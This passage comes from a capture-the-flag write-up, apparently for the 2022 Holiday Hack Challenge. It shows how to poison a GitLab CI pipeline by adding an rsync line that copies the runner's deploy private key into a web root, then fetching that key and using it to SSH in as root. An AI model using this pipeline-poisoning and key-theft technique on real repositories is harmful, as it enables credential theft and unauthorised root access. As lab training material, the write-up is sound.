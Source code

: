 Looking back at the ssh URL we see that it is `ssh://git@gitlab.flag.net.internal:10022/rings-of-powder/wordpress.flag.net.internal.git`, but referring back to the nmap scan there is no port 10022 listening on the gitlab server.  There is however a port 10022 listening on the machine at IP address 172.18.0.1, so try that instead.

``` bash
$ cd ~
$ rm -rf wordpress.flag.net.internal
$ git clone ssh://git@172.18.0.1:10022/rings-of-powder/wordpress.flag.net.internal.git
```

Now that we have connected as an authenticated user, we can commit and push changes back to the repo.


### Exploit the CI/CD pipline

The CI/CD pipeline is defined by the `.gitlab-ci.yml` file at the root of the repository.  Examining this file shows that it uses the `rsync` command to copy files to the web server using ssh authentication for the root user, using the private key file located at `/etc/gitlab-runner/hhc22-wordpress-deploy`

``` yaml title=".gitlab-ci.yml"
stages:
    - deploy

deploy-job:      
    stage: deploy 
    environment: production
    script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```
We can pilfer this private key file by adding a line to the pipeline config that will also copy it to the root of the web site.

``` yaml hl_lines="9" title="Modified .gitlab-ci.yml"
stages:
    - deploy

deploy-job:      
    stage: deploy 
    environment: production
    script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal:/var/www/html
```

Now we just need to commit the change, push the commit to the repository, retrieve the private key file, then use it to ssh to the web server.
```
$ git commit -am "Nothing to see here"
$ git push
$ curl wordpress.local_docker_network/hhc22-wordpress-deploy > ~/hhc22-wordpress-deploy
$ chmod 600 ~/hhc22-wordpress-deploy
$ ssh -i ~/hhc22-wordpress-deploy root@wordpress.flag.net.internal
```
Now that we have root access to the web server, read the contents of the target file<br>
`cat /flag.txt`
